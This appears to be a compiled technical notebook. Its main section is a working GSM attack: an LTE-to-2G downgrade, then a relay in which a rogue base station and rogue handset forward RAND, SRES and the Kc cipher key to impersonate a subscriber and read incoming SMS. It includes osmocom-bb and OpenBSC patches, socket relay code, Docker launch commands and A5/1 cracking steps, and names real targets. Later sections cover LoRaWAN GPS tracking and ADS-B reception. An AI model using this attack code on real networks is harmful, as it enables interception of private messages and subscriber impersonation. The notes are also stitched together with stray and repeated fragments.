-                                 BLADERF_MODULE_RX,
+                                BLADERF_RX_X1,
                                  BLADERF_FORMAT_SC16_Q11_META,
                                  BLADERF_NUM_BUFFERS,
                                  buffer_size,
@@ -974,7 +973,7 @@
     if(radio_params->init_needed)
     {
         // Assume RX_timestamp and TX_timestamp difference is 0
-        bladerf_get_timestamp(bladerf, BLADERF_MODULE_RX, (uint64_t*)&rx_ts);
+        bladerf_get_timestamp(bladerf, BLADERF_RX, (uint64_t*)&rx_ts);
         next_tx_ts            = rx_ts + radio_params->samp_rate; // 1 second to make sure everything is setup
         metadata_rx.flags     = 0;
         metadata_rx.timestamp = next_tx_ts - (radio_params->N_samps_per_subfr*2); // Retard RX by 2 subframes
```

This patch applied on the OpenLTE suite should do the trick.

[Redirection Attack](https://www.youtube.com/watch?v=gHKmmVZAaFo)

And it does !

Then what to do ? We know how to be a BTS in front of a MS and force the
UE (User Equipement : 4G phone) to fallback into 2G.

Hey ! We gonna pretend that we are the MS in front of the BTS !

## Hacking 2G BTS

```{r, echo=FALSE, warning=FALSE}
library(DiagrammeR)
mermaid('
sequenceDiagram
    Client->>Server: Login (Username, Password)
    Server-->>Client: 200 OK & JWT
')
```
[](test3.png)

The UE has become an MS again and we know how to be a BTS !

But even in the BTS does not authenticate MS does in front of the BTS.
How can we bypass this ? By respecting the attack flow above ;)

I mean the secret is the key Ki stored on the SIM even with physical
access you can\'t crack it thanks to the chip inventor ! But we can fool
the authentication process : The original process is :

-   The BTS send a rand,key\_sequence to the MS.
-   The MS respond SRes = f(ki,rand)
-   The MS cipher the communication with Kc= f(Ki,rand,key\_seq)

The hacked process is :

-   The genuine BTS send a rand,key\_seq to the Evil MS.
-   The Evil MS send it to our Evil BTS via socket between Evil BTS
    server and Evil MS client.
-   The Evil BTS send the rand,key\_seq to genuine MS
-   The Genuine MS respond sres -\> Evil BTS -\> Evil MS -\> Genuine BTS
-   In the example video Kc is forwarded between Genuine MS-\> Evil MS

[Impersonnate PoC](https://www.youtube.com/watch?v=gHKmmVZAaFo)

With french explanations ;) sorry\...

[Impersonalisaion
(français)](https://www.youtube.com/watch?v=gHKmmVZAaFo)

With english explanation (now ;) [Impersonate
(english)](https://www.youtube.com/watch?v=rSGA4oFsFrQ)

<https://imgur.com/lUjkpGp> First of all there is a bug with brltty so

``` {.sourceCode .bash}
apt remove brltty
```

on host (not on docker !) Launch 1st

``` {.sourceCode .bash}
sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/ms-final:hell_yeah
```

Launch 2nd

``` {.sourceCode .bash}
sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/bts-final:hell_yeah
```

In this order cause need ip 172.17.0.2 for ms and 172.17.0.3 for bts
(socket are made to work with theses addresses)

in bts

``` {.sourceCode .bash}
tmux
cd /
service pcscd start
./evil-bts.sh
```

\` then in ms :

``` {.sourceCode .bash}
tmux
cd /
bash trx.sh
ctrl-b c 
./evil-ms.sh
```

set IMSI in OpenBSC (via telnet) and in /root/.osmocom/bb/mobile.cfg and
set any ki but set one in OpenBSC need a motorola c1\*\* and a sim
reader

What happen next ?

[Crack A5/1](https://brmlab.cz/project/gsm/deka/attack-implementation)

5s to crack it before the Kc ciphered channel timeout has been gone and
if it is done we have incomming SMS.

Targets android \< 12, telco 2G until 2025 in France

Thank for reading !

\newpage

# Hack sources

## Clients-servers architecture :

```bash
bsc-2rfa 172.17.0.2
server rand 888 listen on 0.0.0.0
client sres 666 -> 172.17.0.3

bb-2rfa 172.17.0.3
client rand 888 -> 172.17.0.2
server sres 666 listen on 0.0.0.0
server kc 777 listen on 0.0.0.0

osmocom-genuine-ms 172.17.0.2
client kc 777 -> 172.17.0.3
```

## Headers :

suppress\_space.h

``` {.sourceCode .c}
#include <stdio.h>
char res[100];
char* spaces(char str [])
{
int i = 0;int j = 0;
       while (str[i] != '\0')
       {
          if ((str[i] == ' ') != 1) {
            res[j] = str[i];
            j++;
          }
          i++;
       }
       res[j] = '\0';
return res;}
```

hex.h

``` {.sourceCode .c}
/*
 * Read hex strings and output as text.
 *
 * No checking of the characters is done, but the strings must have an even
 * length.
 *
 * $Id: hex2ascii.c,v 1.1 2009/09/19 23:56:49 grog Exp $
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "suppress_space.h"
char hexdigit (char c)
{
  char outc;

  outc = c -'0';
  if (outc > 9)                                 /* A - F or a - f */
    outc -= 7;                                  /* A - F */
  if (outc > 15)                                /* a - f? */
    outc -= 32;
  if ((outc > 15) || (outc < 0))
  {
    fprintf (stderr, "Invalid character %c, aborting\n", c);
    exit (1);
  }
  return outc;
}
char ascii[17];
const unsigned char* hex2ascii(char hexval[])
{  int arg;
  char *c=spaces(hexval);
  int sl;
  char oc;

  for (arg = 0; arg < 17; arg++)
  {
    sl = strlen (c);
    if (sl & 1)                                 /* odd length */
    {
      fprintf (stderr,
               "%s is %d chars long, must be even\n",
               c,
               sl );
      return "prout";
    }int i=0;
    while (*c)
    {
      oc = (hexdigit (*c++) << 4) + hexdigit (*c++);
      fputc (oc, stdout);
      strcat(ascii,&oc);
    }
  }
return ascii;}
```

client.h (respect address and port of client server arch)

``` {.sourceCode .c}
/**
 * Example taken from CS 241 @ UIUC
 * Edited by Austin Walters
 * Used as example for austingwalters.com,
 * in socket IPC explanation.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netdb.h>
#include <unistd.h>

void client(char buffer[]){

  int sock_fd = socket(AF_INET, SOCK_STREAM, 0);

  struct addrinfo info, *result;
  memset(&info, 0, sizeof(struct addrinfo));
  info.ai_family = AF_INET;
  info.ai_socktype = SOCK_STREAM;

  if(0 != getaddrinfo("172.17.0.3", "888", &info, &result))
    exit(1);

  /* Connects to bound socket on the server */  
  connect(sock_fd, result->ai_addr, result->ai_addrlen);

  printf("SENDING: %s", buffer);
  write(sock_fd, buffer, strlen(buffer));

  char resp[999];
  int len = strlen(buffer);
  resp[len] = '\0';
  printf("%s\n", resp);
}
```

server.h (respect variable length : 13 for sres, 25 for kc, 51 for rand,
and port from arch client-server)

``` {.sourceCode .c}
/**
 * Written by Austin Walters
 * For an example on austingwalters.com,
 * on sockets
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netdb.h>
#include <unistd.h>
char text[13];
char* catch_sres(){

  int sock_fd = socket(AF_INET, SOCK_STREAM, 0);
  struct addrinfo directives, *result;
  memset(&directives, 0, sizeof(struct addrinfo));
  directives.ai_family = AF_INET;
  directives.ai_socktype = SOCK_STREAM;
  directives.ai_flags = AI_PASSIVE;

  /* Translates IP, port, protocal into struct */
  if(0 !=  getaddrinfo("0.0.0.0", "666", &directives, &result))
    exit(1);

  /* Binds socket to port, so we know where new connections form */
  if(bind(sock_fd, result->ai_addr, result->ai_addrlen) != 0)
      exit(1);
  /* Places socket to "listen" or "wait for stuff" state */
  if(listen(sock_fd, 10) != 0)
      exit(1);
  int i=0;
  printf("Waiting for connection on http://0.0.0.0:666 ...\n");
  while(i==0){

    /* Accepts Connection */
    char buffer[1000];
    int client_fd = accept(sock_fd, NULL, NULL); 
    int len = read(client_fd, buffer, 999);
    buffer[len] = '\0';

    char * header = "<b>You Connected to the Server!</b></br></br>";
    i=i+1;
    write(client_fd, header, strlen(header));

    printf("=== Client Sent ===\n");
    printf("%s\n", buffer);
    memcpy(text,buffer,13);
    close(client_fd);

  }
  return text;
}
```

## Evil-MS :

```bash
git clone https://github.com/osmocom/osmocom-bb
git checkout fc20a37cb375dac11f45b78a446237c70f00841c
wget https://gitlab.com/francoip/thesis/raw/public/patch/thesis.patch
patch -p1 < thesis.patch
```

``` {.sourceCode .patch}
diff -ru osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c
--- osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:39:46.222274989 +0200
+++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c 2022-08-30 15:35:55.472598046 +0200
@@ -20,6 +20,7 @@
  */

 #include <stdint.h>
+#include <string.h>
 #include <errno.h>
 #include <stdio.h>
 #include <string.h>
@@ -41,7 +42,7 @@
 #include <osmocom/bb/mobile/app_mobile.h>
 #include <osmocom/bb/mobile/vty.h>
 #include <osmocom/bb/mobile/dos.h>
-
+#include "client.h"
 extern void *l23_ctx;

 void mm_conn_free(struct gsm48_mm_conn *conn);
@@ -1662,6 +1663,15 @@
     */
    if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
        no_sim = 1;
+   char test2[]="1";
+   sprintf(test2, "%d", ar->key_seq);
+   char test3[3]="-";//"87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
+   strcat(test3,test2);
+   char test[51]="87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
+   strcpy(test,osmo_hexdump(ar->rand,16));
+   strcat(test,test3);
+   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (seq %s)\n", test);
+   client(test);
    gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

    /* wait for auth response event from SIM */
diff -ru osmocom-bb/src/host/layer23/src/mobile/subscriber.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c
--- osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:38:53.125893570 +0200
+++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c   2022-08-30 15:35:55.476598075 +0200
@@ -30,6 +30,11 @@
 #include <osmocom/bb/common/osmocom_data.h>
 #include <osmocom/bb/common/networks.h>
 #include <osmocom/bb/mobile/vty.h>
+#include "server.h"
+#include "server2.h"
+#include "hex.h"
+#include "hex2.h"
+

 /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
  * if list is changed, the result is not written back to SIM */
@@ -945,14 +950,21 @@

        /* store sequence */
        subscr->key_seq = key_seq;
-       memcpy(subscr->key, vec->kc, 8);
+

        LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
+                char *h4ck3d_kc;
+                h4ck3d_kc = catch_kc();
+                const unsigned char *my_h4ck3d_kc=hex2ascii(h4ck3d_kc);
+       char *h4ck3d_sres;
+       h4ck3d_sres = catch_sres();
+           const unsigned char *my_h4ck3d_sres=hex2ascii2(h4ck3d_sres);
+       memcpy(subscr->key, my_h4ck3d_kc, 8);
        nmsg = gsm48_mmevent_msgb_alloc(GSM48_MM_EVENT_AUTH_RESPONSE);
-       if (!nmsg)
-           return -ENOMEM;
        nmme = (struct gsm48_mm_event *) nmsg->data;
-       memcpy(nmme->sres, vec->sres, 4);
+           memcpy(nmme->sres,my_h4ck3d_sres, 4);
+       LOGP(DMM, LOGL_INFO, "KC hijacked = %s\n",osmo_hexdump(my_h4ck3d_kc,8));
+       LOGP(DMM, LOGL_INFO, "SRES hijacked = %s\n",osmo_hexdump(my_h4ck3d_sres,4));
        gsm48_mmevent_msg(ms, nmsg);

        return 0;
```

## Genuine-MS (Kc Forwarding)

Patch osmocom-bb

``` {.sourceCode .bash}
git clone https://github.com/osmocom/osmocom-bb
git checkout fixeria/trxcon
```

``` {.sourceCode .patch}
diff -ru trx/src/host/layer23/src/mobile/gsm48_mm.c osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c
--- trx/src/host/layer23/src/mobile/gsm48_mm.c  2022-08-30 16:41:37.076916961 +0200
+++ osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:51:17.267099639 +0200
@@ -1651,6 +1651,7 @@
     */
    if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
        no_sim = 1;
+   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (rand %s)\n", osmo_hexdump(ar->rand,16));  
    gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

    /* wait for auth response event from SIM */
diff -ru trx/src/host/layer23/src/mobile/subscriber.c osmocom-bb/src/host/layer23/src/mobile/subscriber.c
--- trx/src/host/layer23/src/mobile/subscriber.c    2022-08-30 16:41:37.076916961 +0200
+++ osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:51:17.267099639 +0200
@@ -32,7 +32,7 @@
 #include <osmocom/bb/common/sap_proto.h>
 #include <osmocom/bb/common/networks.h>
 #include <osmocom/bb/mobile/vty.h>
-
+#include "client.h"
 /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
  * if list is changed, the result is not written back to SIM */
 //#define TEST_EMPTY_FPLMN
@@ -369,6 +369,7 @@

    /* key */
    memcpy(subscr->key, data, 8);
+   //client(osmo_hexdump(subscr->key,8));

    /* key sequence */
    subscr->key_seq = data[8] & 0x07;
@@ -907,7 +908,7 @@
    struct msgb *nmsg;
    struct sim_hdr *nsh;

-   /* not a SIM */
+   /* not a SIM
    if (!GSM_SIM_IS_READER(subscr->sim_type)
     || !subscr->sim_valid || no_sim) {
        struct gsm48_mm_event *nmme;
@@ -944,6 +945,7 @@

        /* store sequence */
        subscr->key_seq = key_seq;
+       //client(osmo_hexdump(vec->kc,8));
        memcpy(subscr->key, vec->kc, 8);

        LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
@@ -969,6 +971,7 @@

    /* random */
    memcpy(msgb_put(nmsg, 16), rand, 16);
+   LOGP(DMM, LOGL_NOTICE, "Key Sequence=%d\n",key_seq);

    /* store sequence */
    subscr->key_seq = key_seq;
@@ -1019,7 +1022,9 @@
    nsh->file = 0x6f20;
    data = msgb_put(nmsg, 9);
    memcpy(data, subscr->key, 8);
-   data[8] = subscr->key_seq;
+        LOGP(DMM, LOGL_NOTICE, "KC=%s\n",osmo_hexdump(subscr->key,8));
+   client(osmo_hexdump(subscr->key,8));
+   data[8] = subscr->key;
    sim_job(ms, nmsg);

    /* return signed response */
```

## Patch OpenBSC Evil-BTS:

```bash
git clone https://github.com/osmocom/openbsc
git checkout 3f457a3b79e2908664b40eab9ca8e70c44a54898
```

``` {.sourceCode .patch}
diff -ru openbsc/openbsc/src/libmsc/gsm_04_08.c bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c
--- openbsc/openbsc/src/libmsc/gsm_04_08.c  2022-08-30 16:59:20.033455224 +0200
+++ bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c 2022-08-30 15:51:17.243099474 +0200
@@ -70,7 +70,10 @@
 #include <osmocom/gsm/tlv.h>

 #include <assert.h>
+#include "server.h"
+#include "hex.h"
+#include "client.h"

 void *tall_locop_ctx;
 void *tall_authciphop_ctx;

@@ -908,6 +911,20 @@
    struct msgb *msg = gsm48_msgb_alloc_name("GSM 04.08 AUTH REQ");
    struct gsm48_hdr *gh = (struct gsm48_hdr *) msgb_put(msg, sizeof(*gh));
    struct gsm48_auth_req *ar = (struct gsm48_auth_req *) msgb_put(msg, sizeof(*ar));
+        DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
+   
+
+
+   char *test;
+   test=catch_rand();
+   printf("test %s\n",test);
+   char *randy=strtok(test," -");
+   printf("rand %s\n",rand);
+   char *kandy_seq=strtok(NULL,"-");
+   printf("key_seq %s\n",kandy_seq);
+   char *randy_magnum = spaces(randy);
+        const unsigned char *randynator=hex2ascii(randy_magnum);
+        memcpy(rand,randynator,16);

    DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
    if (autn)
@@ -917,7 +934,7 @@
    gh->proto_discr = GSM48_PDISC_MM;
    gh->msg_type = GSM48_MT_MM_AUTH_REQ;

-   ar->key_seq = key_seq;
+   ar->key_seq = kandy_seq;
```

\newpage 

# Install

## Installing BTS-Evil

```bash
git clone https://github.com/bbaranoff/heartbreaker

#!/bin/bash
mkdir /heartbreaker
cd /heartbreaker
apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
cp /usr/bin/python2 /usr/bin/python
update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
update-alternatives --set gcc /usr/bin/gcc-9
git clone git://git.osmocom.org/libosmocore.git
cd  libosmocore
git checkout 1.1.0
autoreconf -fi
./configure
make
make install
ldconfig
cd ..
git clone git://git.osmocom.org/libosmo-dsp.git
cd libosmo-dsp
libtoolize && autoreconf -fi
autoreconf -fi
./configure
make
make install
ldconfig
apt install -y libortp-dev
cd ..

git clone https://github.com/osmocom/osmocom-bb
cd osmocom-bb/src
git checkout fixeria/trxcon
make nofirmware

cd ../..
git clone https://github.com/osmocom/libosmo-abis
cd libosmo-abis
git checkout 0.8.1
autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

cd ..
git clone https://github.com/osmocom/libosmo-netif
cd libosmo-netif
git checkout 0.6.0
autoreconf -fi && ./configure && make -j4 && make install && ldconfig


cd bsc-2rfa/openbsc
autoreconf -fi && ./configure && make -j4
cd ../..
git clone https://github.com/osmocom/osmo-bts
cd osmo-bts
git checkout 0.8.1
autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

apt install ruby-libxml ruby-dev ruby-dbus
gem install serial smartcard
```

## Installing MS-Evil :

```bash
git clone https://github.com/bbaranoff/heartbreaker

#!/bin/bash
mkdir /heartbreaker
cd /heartbreaker
apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
cp /usr/bin/python2 /usr/bin/python
update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
update-alternatives --set gcc /usr/bin/gcc-9
git clone git://git.osmocom.org/libosmocore.git
cd  libosmocore
git checkout 1.1.0
autoreconf -fi
./configure
make
make install
ldconfig
cd ..
git clone git://git.osmocom.org/libosmo-dsp.git
cd libosmo-dsp
libtoolize && autoreconf -fi
autoreconf -fi
./configure
make
make install
ldconfig
apt install -y libortp-dev
cd ..

git clone https://github.com/osmocom/osmocom-bb
cd osmocom-bb/src
git checkout fixeria/trxcon
make nofirmware

cd ../..
git clone https://github.com/osmocom/libosmo-abis
cd libosmo-abis
git checkout 0.8.1
autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

cd ..
git clone https://github.com/osmocom/libosmo-netif
cd libosmo-netif
git checkout 0.6.0
autoreconf -fi && ./configure && make -j4 && make install && ldconfig
cd ..

cd bsc-2rfa/openbsc
autoreconf -fi && ./configure && make -j4
cd ../..
git clone https://github.com/osmocom/osmo-bts
cd osmo-bts
git checkout 0.8.1
autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

apt install ruby-libxml ruby-dev ruby-dbus
gem install serial smartcard
```

\newpage

# A5/1 Cracking

Download the tables :

[a51\_tables](https://infocon.org/rainbow%20tables/A51/)

Prepare them :

```bash
#!/bin/bash
offset_total=0
echo 0 > test
for abblay in $echo $(ls /media/$USER/tables) ; do abblay2=$(echo $abblay | sed 's/.dlt//g');
cd /media/$USER/indexes/
/media/$USER/indexes/kraken/TableConvert/TableConvert di /media/$USER/tables/$abblay2.dlt $abblay2.ins:$offset_total $abblay2.idx
taille_arrondie=$(echo $(( $(( $(stat -c%s $abblay2.ins)/4096 )) +1 )) *4096 | bc)
offset_total=$(($taille_arrondie + $offset_total))
echo $taille_arrondie >> test
done
awk '{S+=$0}{print S}END{}' test > offsets
git clone http://jenda.hrach.eu/p/deka
git clone https://github.com/0x7678/typhon-vx/tree/master/kraken
sudo add-apt-repository ppa:deadsnakes/ppa
sudo apt update
sudo apt install python3.7 python3.7-dev nvidia-utils-515-server xserver-xorg-video-nvidia-515
sudo python3.7 -m pip install pyopencl numpy scipy
cd deka
./genkernel64.sh > slice.c
sed -i -e 's/3.5m/3.7m/g' Makefile
make
```

newpage
[Redirection Attack](https://www.youtube.com/watch?v=gHKmmVZAaFo)

And it does !

Then what to do ?
We know how to be a BTS in front of a MS and force the UE (User Equipement : 4G phone) to fallback into 2G.

Hey ! We gonna pretend that we are the MS in front of the BTS !

\newpage

# LoRa

## GPS tracker via LoraWAN

[](uml.png)

ISO :
<https://drive.google.com/file/d/1YTdmb8JlvePSKiniwBKYyqXx-m-NhzIe/view?usp=sharing>

**Installation du routeur sur Internet (via WiFi)**

N.B. : Pourquoi via WiFi ? Dans le cas particulier de l\'Université de
Perpignan Via Domitia, le FireWall \"n\'aime\" pas les connections sur
le port 1700 nécessaire à l\'établissement de la connection routeur -\>
TheThingsNetwork.

-   Plug on sector the gateway with USB-C 5V-2A a WiFi network
    dragino-XXXXXX apparait.
-   Connect to it via the password \"dragino+dragino\"
-   Go on the webbrowser on IP 10.130.1.1 an Id/Pwd is asked by the
    dragino (by default) \"root\" / \"dragino\"
-   Connect via the WiFi Mesh the dragino as a client to your smartphone
    or your box for example

[](WiFi_Dragino.png)

**Routage des paquets LoRa vers TheThingsNetwork**

-   Create a thethingsnetwork account (free, need email)
-   We can see the Gateway EUI on the LoRa tab of the network interface
-   We have to choose now TheThingsNetwork v3 on the defilant menu
    beside (the thingsnetwork v is avaible but not deserved for new
    gateways on TTN)
-   On the second defilant menu choose eu1.cloud.thethings.network

[](config_gw_ttn.png)

On thethingsnetwork :

Fill the Gateway EUI same as precedent configuration on the dragino. Le
GatewayID is free but must be unique and available on TTN. The gateway
name is totally free of choice. Enfin les Gateway Server Address doit
correspondre au précedent soit pour l\'Europe :
eu1.cloud.thethings.network

The last option can be let as it is.

You have now your gateway connected to LoRaWAN

[](config_ttn_gw.png)

**Preparation of the RaspberryPi (the connected object) :** A raspberry
is a minicomputer of the height approximatively of a Bank card with the
power of a smartphone et a I/O electrical pinout. The Operationnal
System of this hardware is often (and in this study) on a micro-SD card
(it can be Netboot, USB/HDD, eMMC). We gonna greate the SD card with
this methodology :

**The SD-Card :**

Download Raspi-Imager from <https://www.raspberrypi.com/software/>

To install it on Ubuntu \> 20.04 you just have to do (Ctrl-Alt-t) and
type

``` {.sourceCode .bash}
sudo snap install rpi-imager
```

Then we download the Debian Bullseye OS

[](choose_os.png)

we select the following options ssh : username/password (advice :
\"pi\"/\"raspberry\") Wifi : from the phone or any you have available
optional : set hostname = raspberry.local

[](options_sd_rpi.png)

We the the media that will be written on Then we put the SD-Card on the
raspberry and monitor it via HDMI. Or if you don\'t have HDMI hardware
you can access through SSH. For example if the local network is
192.168.1.0/24 youinstall.packages('readr') can do (on the host)

``` {.sourceCode .bash}
nmap 192.168.1.1-254 -p 22
```

to know RPi IP adress or you can try

``` {.sourceCode .bash}
sudo arp -a
```

Then to spawn a shell on the RPi

``` {.sourceCode .bash}
ssh pi@ip_found_previously
```

or

``` {.sourceCode .bash}
ssh pi@raspberrypi.local
```

Then on the shell

``` {.sourceCode .bash}
sudo apt update && sudo apt upgrade
```

Now we install necessary packages

```bash
sudo apt install git device-tree-compiler git python3-crypto python3-nmea2 python3-rpi.gpio python3-serial python3-spidev python3-configobj gpsd libgps-dev gpsd-clients python3-pip
pip3 install simplecayennelpp
git clone https://github.com/bbaranoff/libgps
cd libgps
make 
sudo make install
sudo ldconfig
nano /etc/default/gpsd
```

```
# Default settings for the gpsd init script and the hotplug wrapper.

# Start the gpsd daemon automatically at boot time
START_DAEMON="true"

# Use USB hotplugging to add new USB devices automatically to the daemon
USBAUTO="false"

# Devices gpsd should collect to at boot time.
# They need to be read/writeable, either by user gpsd or the group dialout.
DEVICES="/dev/ttyAMA0"

# Other options you want to pass to gpsd
GPSD_OPTIONS="-n"
```

Now we add to /boot/config.txt those lines at the end

``` {.sourceCode .}
enable_uart=1
dtoverlay=miniuart-bt
dtoverlay=spi-gpio-cs
```

We modify /boot/cmdline.txt to make it looks like

``` {.sourceCode .}
dwc_otg.lpm_enable=0 console=tty1 root=/dev/mmcblk0p2 rootfstype=ext4 elevator=deadline fsck.repair=yes rootwait
```

Then /home/pi

``` {.sourceCode .bash}
git clone https://github.com/computenodes/dragino
cd dragino/overlay
dtc -@ -I dts -O dtb -o spi-gpio-cs.dtbo spi-gpio-cs-overlay.dts
sudo cp spi-gpio-cs.dtbo /boot/overlays/
sudo reboot
```

Then in /home/pi we create gpscron like :

``` {.sourceCode .bash}
#!/bin/bash
sudo python3 /home/pi/dragino/test_cayenne.py
```

It will be called par cron. (Advice ! Set `sudo chmod 644 gpscorn` to
avoid privilege escalation)

Then we write in /home/pi/dragino : test\_cayenne.py like

``` {.sourceCode .python}
#!/usr/bin/env python3
"""
    Test harness for dragino module - sends hello world out over LoRaWAN 5 times
"""
import logging
from datetime import datetime
from time import sleep
import RPi.GPIO as GPIO
from dragino import Dragino
#import subprocess
import gpsd
from simplecayennelpp import CayenneLPP # import the module required to pack th$
import binascii
# importing the module
# Connect to the local gpsd
gpsd.connect()
packet = gpsd.get_current()
# See the inline docs for GpsResponse for the available data
print(packet.position())
lat = packet.lat
lon = packet.lon
alt = packet.alt

print (lat, lon, alt)
lpp = CayenneLPP()
lpp.addGPS( 1, lat, lon, alt)
text=binascii.hexlify(lpp.getBuffer()).decode()
sent=list(binascii.unhexlify(text))
print(text)
logLevel=logging.DEBUG
logging.basicConfig(filename="test.log", format='%(asctime)s - %(funcName)s - %(lineno)d - %(levelname)s - %(message)s', level=logLevel)
D = Dragino("/home/pi/dragino/dragino.ini", logging_level=logLevel)
D.join()
while not D.registered():
    print("Waiting for JOIN ACCEPT")
    sleep(2)
for i in range(0, 2):
    D.send_bytes(sent)
    start = datetime.utcnow()
    while D.transmitting:
        pass
    end = datetime.utcnow()
    print("Sent GPS coordinates ({})".format(end-start))
    sleep(1)
```

We take now /home/pi/dragino/dragino.ini.default to rewrite it to
/home/pi/dragino/dragino.ini like

``` {.sourceCode .}
gps_baud_rate = 9600
gps_serial_port = /dev/ttyS0
gps_serial_timeout = 1
gps_wait_period = 10

#LoRaWAN configuration
spreading_factor = 7
max_power = 0x0F
output_power = 0x0E
sync_word = 0x34
rx_crc = True
#Where to store the frame count
fcount_filename = .lora_fcount

##Valid auth modes are ABP or OTAA
##All values are hex arrays eg devaddr = 0x01, 0x02, 0x03, 0x04
#auth_mode = "abp"
#devaddr = 
#nwskey = 
#appskey =

auth_mode = otaa
deveui = 0xFF, 0xFE, 0xFD, 0xFC, 0xFC, 0xFD, 0xFE, 0xFF
appeui = 0x70, 0xB3, 0xD5, 0x00, 0x00, 0xD5, 0xB3, 0x70
appkey = 0x3D, 0x83, 0xC3, 0x16, 0x2C, 0xAD, 0x44, 0xB7, 0xB0, 0x50, 0x6C, 0x3C, 0xA1, 0x54, 0x36, 0xB7
```

By choosing DevEUI, AppEUI (unique on TTN), and AppKey with enough
entropy that it can\'t be cracked (beware of MSB, LSB writing between
dragin\_cayenne.py and TTN) Enfin pour executer le script python toutes
les minutes :

``` {.sourceCode .bash}
sudo crontab -e
```

We select our favorite editor to add

``` {.sourceCode .}
* * * * * /home/pi/gpscron
```

at the endfile. For the raspberry we are now ready to go. Lets see from
the network side

**LoraWan Conection (TheThingsNetwork)**

Go to application -\> Create then in EndDevices -\> + Add Endevice

[](add_enddevice.png)

Then with previous parameters set on the RPi (AppEUI, DevEUI, AppKey) in
/home/pi/dragino/dragino.ini we put them on TTN

So in this study example :

``` {.sourceCode .}
deveui = 0xFF, 0xFE, 0xFD, 0xFC, 0xFC, 0xFD, 0xFE, 0xFF
appeui = 0x70, 0xB3, 0xD5, 0x00, 0x00, 0xD5, 0xB3, 0x70
appkey = 0x3D, 0x83, 0xC3, 0x16, 0x2C, 0xAD, 0x44, 0xB7, 0xB0, 0x50, 0x6C, 0x3C, 0xA1, 0x54, 0x36, 0xB7
```

[](register_enddevice.png)

Power On the Pi (Trick to make GPS work (on RPi) !!!!!)

Sur le shell du pi :

``` {.sourceCode .bash}
sudo ntpdate fr.pool.ntp.org
```

Put the RPi outside Pull off the Tx Jumper of the dragino and wait for
3D Fix (the green blinking light of the dragino). Then hotplug the
jumper Tx.

You should have (your first ?) connected object

**Payload Format**

In this study we have choose the CayenneLPP format like

[](format_cayenne.png)

In the created application you should see your device

[](coordonnees_ttn.png)

**Data monitoring (Cayenne Integration)**

Go to <https://mydevices.com/>

Create a Cayenne Account

Select TheThingsNetwork

[](add_new_cayenne.png)

Sélection Dragino RPi Hat et mettre le DevEUI

[](dragino_cayenne.png)

[](gps_live.png)

Live Data from GPS tracker !

newpage

# ADSB

Automatic Dependent Surveillance Broadcast (ADS-B)

Definition

A means by which aircraft, aerodrome vehicles and other objects can
automatically transmit and/or receive data such as identification,
position and additional data, as appropriate, in a broadcast mode via a
data link.

<https://github.com/antirez/dump1090>

To run the program in interactive mode, with networking support, and
connect with your browser to <http://localhost:8080> to see live
traffic:

./dump1090 \--interactive \--net

[](avion.png)

newpage


\newpage


# APOGÉ - l'intelligence Artificielle en Périphérie pOur l'aGriculture de prÉcision
author: "Bastien Baranoff"

## 1 - Introduction

